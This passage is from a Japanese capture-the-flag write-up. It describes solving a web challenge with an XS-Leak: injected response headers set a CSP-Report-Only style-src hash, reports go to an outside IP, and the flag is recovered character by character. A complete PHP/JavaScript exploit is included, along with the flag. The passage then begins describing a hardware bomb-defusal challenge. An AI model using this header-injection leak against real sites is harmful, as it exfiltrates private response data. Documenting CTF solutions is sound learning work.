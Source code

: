 まず思いつくのは <https://twitter.com/ankursundara/status/1723410507389129092> の`Content-Type: multipart/x-mixed-replace`だが、ブラウザがFirefoxではないので使えない。

`Access-Control-Allow-Credentials`ヘッダやXSSIを使ってデータを抜き取ろうとするも、SameSite以前に以下のエラーが出るせいで外部から読み取れない。
今回の環境ではブラウザから見てwebサーバがprivate IP addressにあるので、secure contextにないクライアントからはwebサーバのリソースにアクセスできない。
secure contextにいたらいたで、webサーバがhttpなのでmixed contentで怒られる。詰み。

```
The request client is not a secure context and the resource is in more-private address space `private`.
```

Response Splittingも試したがうまくいかない。
`Content-Security-Policy-Report-Only`を設定して、HTMLの先頭に `<img src=http://exmaple.com/` を突っ込み、URLがレポートされないか試したりもしたが、ちゃんとタグが閉じられないとダメ。

色々試しているうちに、そういえばresponse bodyのXS-Leakだから、response bodyのhashがわかればいいんだよなと気づく。

`Content-Security-Policy-Report-Only: style-src 'sha256-xxxx...'`を設定して、HTMLの先頭に `<style>` を突っ込めば`<style>`の中身がそのsha256にマッチするかどうかでleakできる。

```html
<script>
const sleep = (time) => new Promise(res => setTimeout(res, time));
const main = async () => {
<?php
//$prefix = "leaky_sr";
$prefix = $_GET["prefix"];
$chars = "._-}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
file_put_contents("chars.txt", $chars);
foreach (str_split($chars) as $char) {
  $flag = "Status: 200 OK\nContent-Type: text/plain; charset=utf-8\n\nSECCON{" . $prefix . $char;
  $length = 74 + strlen($prefix);
  $hash = base64_encode(hash('sha256', $flag, true));
  $q = "Content-Type: text/html\r\nContent-Security-Policy-Report-Only: style-src 'sha256-$hash'; report-uri http://35.194.96.69:12345/record.php?k=$char\r\nContent-Length: $length\r\n\r\n<style>";
?>
a = window.open('http://web:3000/?q=<?php echo urlencode($q) ?>', '', 'width=100,height=100');
await sleep(100);
a.close()
<?php } ?>
location = "/redirect.php?prefix=<?php echo $prefix; ?>";
}
main();
</script>
```

FLAG: `SECCON{leaky_sri}`

## Misc digicake

1チーム10分が与えられ、順番に部屋に案内されるのでその間に解くやつ。

電気回路の基盤を渡されて、配線をゴリゴリ削りながら爆弾を解除する問題。

自分のチームはコンテスト開始から2時間後くらいの枠でチャレンジすることになっていたのだけど、チームで1番詳しそうな人が電工二種の試験でその時間は不在だし試験中なので当然連絡取れない。
そんな偶然ある？
